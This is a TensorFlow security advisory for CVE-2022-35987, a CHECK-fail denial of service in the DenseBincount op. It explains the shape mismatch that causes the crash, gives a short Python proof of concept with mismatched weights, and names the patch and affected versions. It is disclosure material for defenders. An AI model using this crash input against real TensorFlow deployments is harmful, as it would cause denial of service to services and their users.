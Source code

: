 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-118.md
## TFSA-2022-118: `CHECK` fail in `DenseBincount`

### CVE Number
CVE-2022-35987

### Impact
`DenseBincount` assumes its input tensor `weights` to either have the same shape as its input tensor `input` or to be length-0. A different `weights` shape will trigger a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
binary_output = True
input = tf.random.uniform(shape=[0, 0], minval=-10000, maxval=10000, dtype=tf.int32, seed=-2460)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.DenseBincount(input=input, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [bf4c14353c2328636a18bfad1e151052c81d5f43](https://github.com/tensorflow/tensorflow/commit/bf4c14353c2328636a18bfad1e151052c81d5f43).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
